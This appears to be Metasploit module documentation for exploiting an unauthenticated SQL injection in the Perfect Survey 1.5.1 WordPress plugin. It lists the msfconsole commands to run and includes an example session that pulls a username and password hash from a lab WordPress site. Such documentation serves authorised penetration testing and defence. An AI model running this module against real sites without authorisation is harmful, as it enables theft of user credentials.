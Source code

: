 ## Vulnerable Application

Perfect Survey, a WordPress plugin, version 1.5.1 is affected by an unauthenticated SQL injection vulnerability
via the `question_id` parameter.

An unauthenticated attacker can exploit this SQL injection vulnerability to retrieve sensitive information,
such as usernames and password hashes, from the `wp_users` table.

The vulnerable plugin can be downloaded from the [WordPress plugin repository](https://wordpress.org/plugins/).
The specific vulnerable version can be found here: https://www.exploit-db.com/apps/51c80e6262c3a39fa852ebf96ff86b78-perfect-survey.1.5.1.zip

## Verification Steps

1. Install the WordPress application and the vulnerable version of the Perfect Survey plugin.
2. Start `msfconsole`.
3. Run: `use auxiliary/scanner/http/wp_perfect_survey_sqli`.
4. Set the target host: `set RHOSTS [ip]`.
5. Adjust other options as necessary, such as `TARGETURI` (default is `/`).
6. Execute the module: `run`.
7. The module should retrieve usernames and password hashes from the WordPress installation.

## Options

### SHOW_FULL_RESPONSE
If set to `true`, the module will print the entire JSON response received from the server when username and password hash extraction fails.
Default is `false`.

## Scenarios

### WordPress with Perfect Survey Plugin 1.5.1 on Ubuntu 20.04

#### Example

```sh
msf6 > use auxiliary/scanner/http/wp_perfect_survey_sqli
[*] Using auxiliary/scanner/http/wp_perfect_survey_sqli
msf6 auxiliary(scanner/http/wp_perfect_survey_sqli) > set RHOSTS 192.168.1.104
RHOSTS => 192.168.1.104
msf6 auxiliary(scanner/http/wp_perfect_survey_sqli) > set RPORT 8000
RPORT => 8000
msf6 auxiliary(scanner/http/wp_perfect_survey_sqli) > set TARGETURI /wordpress
TARGETURI => /wordpress
msf6 auxiliary(scanner/http/wp_perfect_survey_sqli) > exploit 
[*] Running module against 192.168.1.104

[*] Exploiting SQLi in Perfect Survey plugin...
[+] Received a response from the server!
[+] Extracted Username: aaryan
[+] Extracted Password Hash: $P$BroxbUQTM0N32U7JeMmkXPJrxN9ErZ1
[*] Auxiliary module execution completed
```
